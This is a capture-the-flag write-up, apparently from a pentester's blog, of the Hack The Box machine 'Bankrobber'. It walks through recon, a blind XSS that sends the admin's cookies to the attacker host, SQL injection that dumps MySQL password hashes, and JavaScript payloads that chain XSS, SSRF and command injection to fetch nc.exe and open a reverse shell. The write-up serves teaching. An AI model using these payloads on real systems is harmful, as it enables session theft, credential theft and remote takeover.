

<script>
function openNav() {
  document.getElementById("mySidebar").style.width = "250px";
  document.getElementById("aButton").style.visibility="hidden";
  document.getElementById("cButton").style.visibility="visible";
}
function closeNav() {
  document.getElementById("mySidebar").style.width = "0";
  document.getElementById("aButton").style.visibility="visible";
  document.getElementById("cButton").style.visibility="hidden";
}
</script>
<link href="https://fonts.googleapis.com/icon?family=Material+Icons" rel="stylesheet">
<div id="mySidebar" class="sidebar">
<ul class="author__urls social-icons">
    <center>
    <h1>Scatterbrain</h1>
    <b>Penetration Tester</b><br>
          <svg width="15px" height="15px" class="svg-inline--fa fa-map-marker-alt fa-w-12 fa-fw" aria-hidden="true" focusable="false" data-prefix="fas" data-icon="map-marker-alt" role="img" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 384 512" data-fa-i2svg=""><path fill="currentColor" d="M172.268 501.67C26.97 291.031 0 269.413 0 192 0 85.961 85.961 0 192 0s192 85.961 192 192c0 77.413-26.97 99.031-172.268 309.67-9.535 13.774-29.93 13.773-39.464 0zM192 272c44.183 0 80-35.817 80-80s-35.817-80-80-80-80 35.817-80 80 35.817 80 80 80z"></path></svg><span itemprop="name">United States</span></center>
 <br><br>
          <a href="mailto:mail@null.com">
            <meta itemprop="email" content="scatter@protonmail.io">
            <svg width="15px" height="15px" class="svg-inline--fa fa-envelope-square fa-w-14 fa-fw" aria-hidden="true" focusable="false" data-prefix="fas" data-icon="envelope-square" role="img" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 448 512" data-fa-i2svg=""><path fill="currentColor" d="M400 32H48C21.49 32 0 53.49 0 80v352c0 26.51 21.49 48 48 48h352c26.51 0 48-21.49 48-48V80c0-26.51-21.49-48-48-48zM178.117 262.104C87.429 196.287 88.353 196.121 64 177.167V152c0-13.255 10.745-24 24-24h272c13.255 0 24 10.745 24 24v25.167c-24.371 18.969-23.434 19.124-114.117 84.938-10.5 7.655-31.392 26.12-45.883 25.894-14.503.218-35.367-18.227-45.883-25.895zM384 217.775V360c0 13.255-10.745 24-24 24H88c-13.255 0-24-10.745-24-24V217.775c13.958 10.794 33.329 25.236 95.303 70.214 14.162 10.341 37.975 32.145 64.694 32.01 26.887.134 51.037-22.041 64.72-32.025 61.958-44.965 81.325-59.406 95.283-70.199z"></path></svg>Email </a>
<br>
          <a href="https://keybase.io/scatterbrain" itemprop="sameAs" rel="nofollow noopener noreferrer">
            <svg width="15px" height="15px" class="svg-inline--fa fa-key fa-w-16 fa-fw" aria-hidden="true" focusable="false" data-prefix="fas" data-icon="key" role="img" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 512 512" data-fa-i2svg=""><path fill="currentColor" d="M512 176.001C512 273.203 433.202 352 336 352c-11.22 0-22.19-1.062-32.827-3.069l-24.012 27.014A23.999 23.999 0 0 1 261.223 384H224v40c0 13.255-10.745 24-24 24h-40v40c0 13.255-10.745 24-24 24H24c-13.255 0-24-10.745-24-24v-78.059c0-6.365 2.529-12.47 7.029-16.971l161.802-161.802C163.108 213.814 160 195.271 160 176 160 78.798 238.797.001 335.999 0 433.488-.001 512 78.511 512 176.001zM336 128c0 26.51 21.49 48 48 48s48-21.49 48-48-21.49-48-48-48-48 21.49-48 48z"></path></svg>Keybase
          </a>
  <br>
          <a href="https://twitter.com/scatterbrain" itemprop="sameAs" rel="nofollow noopener noreferrer">
            <svg width="15px" height="15px" class="svg-inline--fa fa-twitter-square fa-w-14 fa-fw" aria-hidden="true" focusable="false" data-prefix="fab" data-icon="twitter-square" role="img" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 448 512" data-fa-i2svg=""><path fill="currentColor" d="M400 32H48C21.5 32 0 53.5 0 80v352c0 26.5 21.5 48 48 48h352c26.5 0 48-21.5 48-48V80c0-26.5-21.5-48-48-48zm-48.9 158.8c.2 2.8.2 5.7.2 8.5 0 86.7-66 186.6-186.6 186.6-37.2 0-71.7-10.8-100.7-29.4 5.3.6 10.4.8 15.8.8 30.7 0 58.9-10.4 81.4-28-28.8-.6-53-19.5-61.3-45.5 10.1 1.5 19.2 1.5 29.6-1.2-30-6.1-52.5-32.5-52.5-64.4v-.8c8.7 4.9 18.9 7.9 29.6 8.3a65.447 65.447 0 0 1-29.2-54.6c0-12.2 3.2-23.4 8.9-33.1 32.3 39.8 80.8 65.8 135.2 68.6-9.3-44.5 24-80.6 64-80.6 18.9 0 35.9 7.9 47.9 20.7 14.8-2.8 29-8.3 41.6-15.8-4.9 15.2-15.2 28-28.8 36.1 13.2-1.4 26-5.1 37.8-10.2-8.9 13.1-20.1 24.7-32.9 34z"></path></svg>Twitter
          </a>
  <br>
          <a href="https://github.com/scatter-security/" itemprop="sameAs" rel="nofollow noopener noreferrer">
            <svg width="15px" height="15px" class="svg-inline--fa fa-github fa-w-16 fa-fw" aria-hidden="true" focusable="false" data-prefix="fab" data-icon="github" role="img" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 496 512" data-fa-i2svg=""><path fill="currentColor" d="M165.9 397.4c0 2-2.3 3.6-5.2 3.6-3.3.3-5.6-1.3-5.6-3.6 0-2 2.3-3.6 5.2-3.6 3-.3 5.6 1.3 5.6 3.6zm-31.1-4.5c-.7 2 1.3 4.3 4.3 4.9 2.6 1 5.6 0 6.2-2s-1.3-4.3-4.3-5.2c-2.6-.7-5.5.3-6.2 2.3zm44.2-1.7c-2.9.7-4.9 2.6-4.6 4.9.3 2 2.9 3.3 5.9 2.6 2.9-.7 4.9-2.6 4.6-4.6-.3-1.9-3-3.2-5.9-2.9zM244.8 8C106.1 8 0 113.3 0 252c0 110.9 69.8 205.8 169.5 239.2 12.8 2.3 17.3-5.6 17.3-12.1 0-6.2-.3-40.4-.3-61.4 0 0-70 15-84.7-29.8 0 0-11.4-29.1-27.8-36.6 0 0-22.9-15.7 1.6-15.4 0 0 24.9 2 38.6 25.8 21.9 38.6 58.6 27.5 72.9 20.9 2.3-16 8.8-27.1 16-33.7-55.9-6.2-112.3-14.3-112.3-110.5 0-27.5 7.6-41.3 23.6-58.9-2.6-6.5-11.1-33.3 2.6-67.9 20.9-6.5 69 27 69 27 20-5.6 41.5-8.5 62.8-8.5s42.8 2.9 62.8 8.5c0 0 48.1-33.6 69-27 13.7 34.7 5.2 61.4 2.6 67.9 16 17.7 25.8 31.5 25.8 58.9 0 96.5-58.9 104.2-114.8 110.5 9.2 7.9 17 22.9 17 46.4 0 33.7-.3 75.4-.3 83.6 0 6.5 4.6 14.4 17.3 12.1C428.2 457.8 496 362.9 496 252 496 113.3 383.5 8 244.8 8zM97.2 352.9c-1.3 1-1 3.3.7 5.2 1.6 1.6 3.9 2.3 5.2 1 1.3-1 1-3.3-.7-5.2-1.6-1.6-3.9-2.3-5.2-1zm-10.8-8.1c-.7 1.3.3 2.9 2.3 3.9 1.6 1 3.6.7 4.3-.7.7-1.3-.3-2.9-2.3-3.9-2-.6-3.6-.3-4.3.7zm32.4 35.6c-1.6 1.3-1 4.3 1.3 6.2 2.3 2.3 5.2 2.6 6.5 1 1.3-1.3.7-4.3-1.3-6.2-2.2-2.3-5.2-2.6-6.5-1zm-11.4-14.7c-1.6 1-1.6 3.6 0 5.9 1.6 2.3 4.3 3.3 5.6 2.3 1.6-1.3 1.6-3.9 0-6.2-1.4-2.3-4-3.3-5.6-2z"></path></svg>GitHub
          </a>
    </ul>
</div>
<div class="buttons">
<button class="showButton" id="aButton" onclick="openNav();">☰Menu</button>
<button class="closeButton" id="cButton" onclick="closeNav();">☰Hide</button>
</div>
<div class="content"><center>
<a href="index.html">Home</a><a href="#">Post</a><a href="#">Categories</a><a href="#">Tags</a><a href="#">About</a><a href="#">Affiliates</a></center>

<br><br><br>
</div>
<h1>Bankrobber</h1>
<a href="index.html">Home</a>/Bankrobber - Hack The Box<br>
<br>
<br>
This was my first active box on HTB that I was able to root, and it's rated at insane difficulty. So I thought this would be a great place to start my first write-up. This being a box I solved almost 6 months ago, bare with me as I try to remember exactly what I did based on scatterd notes I jotted down. I am not writting this like a traditional Pentest report to a client but from the perspective of a teacher speaking to a student and will attempt to recapture my thought proccess so you can understand the flow.

I liked this box a lot because it consisted of web vulnerabilities that I already knew how to find and exploit and emulated a realistic Pentest. 

The only issue I had was this box required a bot to impersonate an admin's session and the response time for this was just not there, which was a major detour, almost to the point that I gave up. After I climbed that wall, I was able to get initial foothold and eventually rooted within a few days.

----

### Synopsis

Bankrobber is a web app box that can be solved with some essential OWASP top 10 knowledge to get a user shell, and some basic binary exploitation to esculate to root.

----

### Reconnaissance

Well, before any PT, you first must know what is the scope of the engagement. What do we already know, what must we find out. We know that this is a Windows host from the description card and HTB provided the IP address of our target. So we turn to `Nmap` a faithful and reliable tool that is almost as old as the internet itself. Then initiate a scan and probe all common TCP ports to discover some services to test.
```bash
# nmap -e tun0 -n -v -Pn -p80,443,445,3306 -A --reason -oN nmap.txt 10.10.10.154
...
PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http?        syn-ack ttl 127
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: E-coin
443/tcp  open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: E-coin
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
445/tcp  open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        syn-ack ttl 127 MariaDB (unauthorized)
```
We see here that HTTP/s web services are available at standard ports 80 and 443, an MYSQL database on standard 3306 as well as an open port on 445 standard SMB which is another way to determine the likeliness this is a Windows machine.


Since the name of the challenge is BankRobber, I think it is pretty safe to assume there is a bank involved.

Before looking at the network stack I always begin with the application layer. So I load up my HTTP proxy/sniffer/injector/fuzzer Burp Suite, the swiss army knife of HTTP testing and surf over to the web site to have a look-see at this Bank's applications and see what she is made of.

So we see here that this is some kind of BitCoin operation. Let's learn more...


### Web Enumeration
We see that this is a site for users to buy and sell E-Coin cryptocurrency.
There is a LOGIN and Register link in the top right head of the page.
We can Register a account and login to discover a mechanism for transfering funds from account to account and a text field to leave a comment.

<b>Directory/File Enumeration</b>

First I spider with Burp to crawl the site and build a map.


While in my terminal I run `Gobuster` with `Seclists` because I wanted to compare/contrast the difference.
```bash
# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -t 40 -x php,txt,log -u http://10.10.10.154/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.154/
[+] Threads:        40
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,log
[+] Timeout:        10s
===============================================================
2019/09/24 02:34:03 Starting gobuster
===============================================================
/login.php (Status: 302)
/user (Status: 301)
/admin (Status: 301)
/js (Status: 301)
/logout.php (Status: 302)
/css (Status: 301)
/register.php (Status: 200)
/img (Status: 301)
/webalizer (Status: 403)
/index.php (Status: 200)
/fonts (Status: 301)
/phpmyadmin (Status: 403)
/link.php (Status: 200)
/notes.txt (Status: 200)
/licenses (Status: 403)
/server-status (Status: 403)
/con (Status: 403)
/con.php (Status: 403)
/con.txt (Status: 403)
/con.log (Status: 403)
Progress: 8536 / 17771 (48.03%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2019/09/24 02:41:33 Finished
===============================================================
```
`login.php` and `register.php` both have a input fields and I make a note to test later.

The `/admin` dir is not accessible, session managment and authorization will be tested.

`notes.txt` provided some useful Dev notes left behind possibly for later.


let's do a quick HTTP packet header analysis of the `.php` files with `curl`

`login.php`

```bash
$curl -i -d "username=admin&password=admin" http://10.10.10.154/login.php
HTTP/1.1 302 Found
Date: Thu, 19 Mar 2020 08:07:28 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Location: index.php
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
`register.php`

```bash
# $curl -i -d "username=admin&password=admin" http://10.10.10.154/register.php
HTTP/1.1 302 Found
Date: Thu, 19 Mar 2020 08:06:55 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Location: index.php?msg=User already exists.
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```
We can now see that users can be enumerated by `msg=User already exist` 
and we identifed an account with the username `admin` 

let's see what happens if we create a user that dosn't exist.
```bash
$curl -i -d "username=mother&password=goose" http://10.10.10.154/register.php
HTTP/1.1 302 Found
Date: Thu, 19 Mar 2020 08:05:28 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Location: index.php?msg=User created.
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```

Ok that seemed to work, now let's try to login with our fresh account.
```bash
 $curl -i -d "username=mother&password=goose" http://10.10.10.154/login.php
HTTP/1.1 302 Found
Date: Thu, 19 Mar 2020 08:08:39 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Set-Cookie: id=25
Set-Cookie: username=bW90aGVy
Set-Cookie: password=Z29vc2U%3D
Location: user
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
The response headers here tells us a lot of useful information about the authentication mechanisms in place.

`Location: user` indicates redirection to the `/user` dir 
we can assume admin should get redirected to `/admin`

cookie-based authentication:
`Set-Cookie: id=25` tells us it's likely there are 25 other accounts 
`id=1` or `0` is probably the admin.

The username and password values are base64 and url-encoded.

We can try a few basic passwords to attempt to login as admin but fail.
There is no lockout mechnaisms for attempts made.
This sets the stage if all else fails for a Brute Force attack
but I was feeling BF is a bit too much Script Kiddie like for an insane box, 


So now I switch over to Burp and Browser and head over to `login.php` and log back in with our account and attempt to transfer some funds.


Once I submit the transfer I get prompted a JS alert stating that the `admin` will review our input in a minute. This is a critical clue and enough for us to formulate an attack. 


After our examination, we know that the session tokens are static credentials and the transfers are done in javascript. This is a indication of a possible blind XSS vulnerability where when the `admin` reviews our input, he will execute our malicious script. Which will reflect his session cookies back to our C2. 

We might be able to utilize this to reflect and execute a .js stored on our own C2 host to drop and execute a payload. Which can give us a shell.


So now that we formulated our devious masterplan, lets build the tools we need to perform.

### Weaponization: XSS->session hijacking
Here we build a simple XSS to drop in the comment box in `transfer.php`

XSS Cookie grabber - gets the session token of the admin and reflects it back to us through the url

XSS payload
```javascript
<script src=http://10.10.14.40/getcookie.js%3E</script>
```
`getcookie.js`
```
function getCookie() {
    var img = document.createElement("img");
    img.src = "http://10.10.14.40/xss?=" + document.cookie;
    document.body.appendChild(img);
}
getCookie();
```


### Delivery

So from my localbox terminal I use a python module called http.server (used to be simpleHTTPserver)
Note: be patient it will work in about 2-5 mintues.
```bash
$sudo python -m http.server 80
[sudo] password for account: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.154 - - [21/Mar/2020 00:21:57] "GET /getcookie.js HTTP/1.1" 200 -
10.10.10.154 - - [21/Mar/2020 00:21:57] code 404, message File not found
10.10.10.154 - - [21/Mar/2020 00:21:57] "GET /xss?=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1" 404 -
```
Ok we got our session token, if we urldecode it in URL then base64 decode it in bash.
```bash
┌─[✗]─[account@parrot]─[~/tmp]
└──╼ $alias urldecode='python3 -c "import sys, urllib.parse as ul; \
>     print(ul.unquote_plus(sys.argv[1]))"'
┌─[account@parrot]─[~/tmp]
└──╼ $urldecode 'YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20'
YWRtaW4=; password=SG9wZWxlc3Nyb21hbnRpYw==; 
┌─[account@parrot]─[~/tmp]
└──╼ $echo "YWRtaW4=" | base64 -d
admin
┌─[account@parrot]─[~/tmp]
└──╼ $echo "SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20'" | base64 -d
Hopelessromantic
```
Now we got admin creds `admin:Hopelessromanticbase64` for a inital foothold.

### Web Enumeration: Admin Panel


 There is a lot of interesting input/output.
 We see a table for pending transaction approval. The backend of our XSS payload.
 We know from our inital port scan that their is a MYSQL DB. This is worth testing for SQL injection.
 Then our next input field takes a numeric value and returns another table. Out of habbit I instantly inserted an escape quote that returns `There is a problem with your SQL syntax`, which isignifies a SQLi point. You could use a tool like SQLmap for this but what fun would that be?
 
 **SQL injection**
`1'OR'1' AND '1'='2' order by 3-- `
  Tells us there are 3 columns, 2 visable, 1 hidden.
`1'OR'1' AND '1'='2' union select 1,user(),3-- `
 gives us the user and hostname of the SQLdb which is localhost since it's on the same machine as this application.
 
<table style="width:100%">
  <tr>
    <th>ID</th>
    <th>User</th>
  </tr>
  <tr>
    <td>Admin</td>
    <td>root@localhost</td>
  </tr>
</table>

`1'or'1' AND '1'='2' UNION SELECT table_name, column_name, 1 FROM information_schema.columns-- `
this will dump every column name in the schema.

`1'OR'1' AND '1'='2' UNION SELECT table_schema, table_name, 1 FROM information_schema.tables-- `
this will dump every table name in the schema.
 
`1'OR'1' AND '1'='2' UNION SELECT group_concat(table_name), 2, 3 FROM information_schema.tables WHERE table_schema=database()-- `
return the database name.

```mysql
/*
DB name: bankrobber 
user: root@localhost
version: 10.1.38-MariaDB 
*/

1'OR'1' AND '1'='2' UNION SELECT concat(host, user, password),2,3 FROM mysql.user-- 

/*
localhostroot*F435725A173757E57BD36B09048B8B610FF4D0C4    2
127.0.0.1root*F435725A173757E57BD36B09048B8B610FF4D0C4    2
::1root*F435725A173757E57BD36B09048B8B610FF4D0C4    2
localhost    2
localhostpma    2
HASH: F435725A173757E57BD36B09048B8B610FF4D0C4

Possible Hashs:
[+]  SHA-1
[+]  MySQL5 - SHA-1(SHA-1($pass))
F435725A173757E57BD36B09048B8B610FF4D0C4 MySQL4.1/MySQL5 
User: root
Password Welkom1!
*/
```
So after picking the DB apart I was able to get a password hash.
That I was easily able to crack using rainbow tables.

So let's look at the third input field.

Backdoorchecker:
To quickly identify backdoors located on our server;
we implemented this function.
For safety issues you're only allowed to run the 'dir' command with any arguments.

So we run `dir` into the field and get prompted.

`It's only allowed to access this function from localhost (::1).
This is due to the recent hack attempts on our server.`

I tried a bunch of Curl post request spoofing the headers to make it look like the packet was coming from localhost but no cigar.

After taken a short break, I then observed that since maybe we can't manipulate the backdoorchecker field from our host. Why not just go back to the XSS we found in the coin transfer and do SSRF to get a RCE. In-fucking-deed! 

let's weponize this mothafucker.

### Weaponization: XSS->SSRF->RCE

XSS To drop nc.exe:
`<script src=http://10.10.14.5/payd.js%3E</script>`

XSS to Reverse Shell:
`<script src=http://10.10.14.5/pay.js%3E</script>`

`payd.js`
```
//Dropper:
function paintfunc(){
    var http = new XMLHttpRequest();
        var url = 'http://localhost/admin/backdoorchecker.php';
        var params = 'cmd=dir | powershell -c Invoke-WebRequest -Uri "http://10.10.14.5/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"';
        http.open('POST', url, true);
        http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        http.send(params);
}

paintfunc();
```
`pay.js`
```
//Execution:
function paintfunc(){
    var http = new XMLHttpRequest();
        var url = 'http://localhost/admin/backdoorchecker.php';
        var params = 'cmd=dir | powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe 10.10.14.5 4444';
        http.open('POST', url, true);
        http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        http.send(params);
}

paintfunc();
```


### Exploitation
The malware begins executing on the target system

### Installation
The malware installs a backdoor or other ingress accessible to the attacker

### Command and Control
The intruder gains persistent access to the victim’s systems/network

### Actions on Objective
Intruder initiates end goal actions, such as data theft, data corruption, or data destruction
